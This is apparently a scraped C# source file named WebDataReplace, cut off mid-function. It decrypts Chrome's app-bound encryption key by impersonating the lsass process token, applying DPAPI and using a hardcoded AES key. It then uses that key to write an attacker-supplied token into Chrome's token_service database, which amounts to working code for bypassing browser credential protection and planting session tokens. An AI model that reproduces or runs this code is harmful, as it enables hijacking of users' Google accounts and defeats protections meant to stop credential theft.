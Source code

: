 ```
using Community.CsharpSqlite.SQLiteClient;using System;using System.Diagnostics;using System.IO;using System.Linq;using System.Runtime.InteropServices;using System.Security.Cryptography;using System.Text;using System.Text.RegularExpressions;namespaceWebDataReplace{    internalclassProgram    {        static void Main(string[] args)        {            Console.Write("ID:");            string id = Console.ReadLine();            Console.Write("Token:");            string token = Console.ReadLine();            string webdatapath = Path.Combine(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), "Google\\Chrome\\User Data\\Default"), "Web Data");            using (SqliteConnection conn = new SqliteConnection(@"Data Source=" + webdatapath + ";Version=3;"))            {                conn.Open();                SqliteCommand cmd = new SqliteCommand(webdata(id, token), conn);                cmd.ExecuteNonQuery();            }            Console.WriteLine("OK");            Console.ReadLine();        }        private static string webdata(string id, string token)        {            byte[] key = GetAppBoundKey();            byte[] iv = newbyte[12];            byte[] result = AesGcm.Encrypt(key, iv, null, Encoding.UTF8.GetBytes(token))[0];            byte[] tag = AesGcm.Encrypt(key, iv, null, Encoding.UTF8.GetBytes(token))[1];            byte[] final = newbyte[31 + result.Length];            final[0] = (byte)'v';            final[1] = (byte)'2';            final[2] = (byte)'0';            Array.Copy(iv, 0, final, 3, 12);            Array.Copy(result, 0, final, 15, result.Length);            Array.Copy(tag, 0, final, 15 + result.Length, 16);            string t = BitConverter.ToString(final, 0).Replace("-", "");            string output = "INSERT INTO token_service (service,encrypted_token) VALUES ('" + id + "',x'" + t + "');";            return output;        }        publicenum PROCESS_ACCESS_FLAGS : uint        {            PROCESS_ALL_ACCESS = 0x001F0FFF,            PROCESS_CREATE_PROCESS = 0x0080,            PROCESS_CREATE_THREAD = 0x0002,            PROCESS_DUP_HANDLE = 0x0040,            PROCESS_QUERY_INFORMATION = 0x0400,            PROCESS_QUERY_LIMITED_INFORMATION = 0x1000,            PROCESS_SET_INFORMATION = 0x0200,            PROCESS_SET_QUOTA = 0x0100,            PROCESS_SUSPEND_RESUME = 0x0800,            PROCESS_TERMINATE = 0x0001,            PROCESS_VM_OPERATION = 0x0008,            PROCESS_VM_READ = 0x0010,            PROCESS_VM_WRITE = 0x0020,            SYNCHRONIZE = 0x00100000        }        [DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]        public static extern bool RevertToSelf();        [DllImport("advapi32.dll", SetLastError = true)]        [return: MarshalAs(UnmanagedType.Bool)]        public static extern bool OpenProcessToken(IntPtr ProcessHandle, UInt32 DesiredAccess, out IntPtr TokenHandle);        [DllImport("advapi32.dll")]        public extern static bool DuplicateToken(IntPtr ExistingTokenHandle, int SECURITY_IMPERSONATION_LEVEL, ref IntPtr DuplicateTokenHandle);        [DllImport("advapi32.dll", SetLastError = true)]        public static extern bool SetThreadToken(IntPtr pHandle, IntPtr hToken);        [DllImport("kernel32.dll", SetLastError = true)]        public static extern IntPtr OpenProcess(PROCESS_ACCESS_FLAGS dwDesiredAccess, bool bInheritHandle, int dwProcessId);        public static bool ImpersonateProcessToken(int pid)        {            IntPtr hProcess = OpenProcess(PROCESS_ACCESS_FLAGS.PROCESS_QUERY_INFORMATION, true, pid);            if (hProcess == IntPtr.Zero) returnfalse;            IntPtr hToken;            if (!OpenProcessToken(hProcess, 0x00000002 | 0x00000004, out hToken)) returnfalse;            IntPtr DuplicatedToken = new IntPtr();            if (!DuplicateToken(hToken, 2, ref DuplicatedToken)) returnfalse;            if (!SetThreadToken(IntPtr.Zero, DuplicatedToken)) returnfalse;            returntrue;        }        public static byte[] GetAppBoundKey()        {            try            {                string filePath = Path.Combine(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), "Google\\Chrome\\User Data"), "Local State");                if (!File.Exists(filePath))                    returnnull;                var pattern = new Regex("\"app_bound_encrypted_key\":\"(.*?)\"", RegexOptions.Compiled).Matches(File.ReadAllText(filePath).Replace(" ", ""));                byte[] masterKey = null;                foreach (Match prof in pattern)                {                    if (prof.Success)                        masterKey = Convert.FromBase64String((prof.Groups[1].Value));                }                if (masterKey.Length >= 4 && Encoding.UTF8.GetString(masterKey).StartsWith("APPB"))                {                    byte[] tempresult = newbyte[masterKey.Length - 4];                    Array.Copy(masterKey, 4, tempresult, 0, masterKey.Length - 4);                    masterKey = tempresult;                }                ImpersonateProcessToken(Process.GetProcessesByName("lsass")[0].Id);                byte[] result = ProtectedData.Unprotect(masterKey, null, DataProtectionScope.LocalMachine);                RevertToSelf();                byte[] Key1 = ProtectedData.Unprotect(result, null, DataProtectionScope.CurrentUser);                byte[] Key2 = Key1.Skip(Math.Max(0, Key1.Length - 60)).ToArray();                byte[] decryptedData = null;                string aesKeyBase64 = "sxxuJBrIRnKNqcH6xJNmUc/7lE0UOrgWJ2vMbaAoR4c=";                byte[] aesKey = Convert.FromBase64String(aesKeyBase64);                byte[] iv = Key2.Take(12).ToArray();                byte[] ciphertext = Key2.Skip(12).Take(32).ToArray();                byte[] tag = Key2.Skip(44).Take(16).ToArray();                decryptedData = new AesGcm().Decrypt(aesKey, iv, null, ciphertext, tag);
```